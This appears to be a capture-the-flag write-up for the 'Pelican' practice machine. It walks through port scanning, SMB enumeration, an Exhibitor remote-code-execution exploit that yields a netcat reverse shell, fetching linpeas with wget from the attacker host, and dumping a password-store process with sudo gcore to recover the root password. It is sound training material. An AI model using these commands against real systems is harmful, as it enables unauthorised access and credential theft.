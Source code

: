 ```yaml
---
description: Pg Practice Pelican writeup
---
```


# Pelican

![](<../../../.gitbook/assets/image (788).png>)

## Nmap

```
sudo nmap 192.168.189.98 -sS -sV -p-                                                                                                                                                                                             130 ⨯

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8080/tcp  open  http        Jetty 1.0
8081/tcp  open  http        nginx 1.14.2
44091/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## SMB

We start this box on SMB and perform a quick null authentication check using `smbmap` against the target.

```
smbmap -u '' -p '' -R -H 192.168.189.98
```

![](<../../../.gitbook/assets/image (710).png>)

We have no luck here. I then run enum4linux against the target to look for users, groups and to perform RID cycling.

```
enum4linux -U -G -r 192.168.189.98
```

As `Enum4linux` output is quite messy I have opted to not post the gathered information but essentially from this we have found the user '_charles_' on the target machine. We can store this information for later.

## HTTP

I ran `feroxbuster` against port 8080 and 8081 and did not find any valid results. `Nikto` did not find any significant finds either.

When browsing to port 8080 we come to an application called 'Exhibitor'.

![http://192.168.189.98:8080/exhibitor/v1/ui/index.html](<../../../.gitbook/assets/image (711).png>)

When searching on Google for known exploits we are directed to a RCE vulnerability that exists in versions of Exhibitor where 'Java.env script' configuration parameter exists under the 'Config' tab.

## Exploitation

{% embed url="https://www.exploit-db.com/exploits/48654" %}

The relevant part of the exploit code is the following:

![](<../../../.gitbook/assets/image (712).png>)

I then made the changes as recommended in the PoC.

![](<../../../.gitbook/assets/image (713).png>)

Start up a `netcat` listener on the attacking machine.

```
nc -lvp 443
```

Then commit the changes in Exhibitor. You will be warned about the Exhibitor server restarting and when it comes up you should land a shell.

## Low Privilege Shell

![](<../../../.gitbook/assets/image (715).png>)

We can then upgrade our shell a little bit:

```
/usr/bin/script -qc /bin/bash /dev/null
```

## Privilege Escalation

As per usual I then started a python server on my attacking machine with `python2 -m SimpleHTTPServer` and then downloaded `linpeas.sh` with `wget`.

```
wget http://<Attacking-IP>/linpeas.sh
```

After `linpeas.sh` was downloaded I then executed the batch file. linpeas soon identifies that we have access to the following sudo command:

![](<../../../.gitbook/assets/image (716).png>)

Looking up `gcore` on Google we see it is an application for dumping information out of memory for running processes. Considering we can run this as any account defined by (ALL) with no password 'NOPASSWD' we can run it as root.

Looking further down linpeas we can see the following SUID permission files one of which has an interesting name of '/usr/bin/password-store'.

![](<../../../.gitbook/assets/image (717).png>)

We can check if this is a running process which can be dumped with `gcore`.

![](<../../../.gitbook/assets/image (718).png>)

We can attempt to dump this with `gcore`. The syntax for our command is as follows:

```
sudo -u root /usr/bin/gcore -a -o <outputfile> <pid>
```

or in my case:

```
sudo -u root /usr/bin/gcore -a -o /home/charles/output 493
```

Once the command completed I moved to the destination directory and run the strings command on the file to make it more human readable.

In the output of the text you will see a field with a value under it called '001 Password: root:' grab the value under this and attempt to login to root with the `su` command.

![](<../../../.gitbook/assets/image (720).png>)
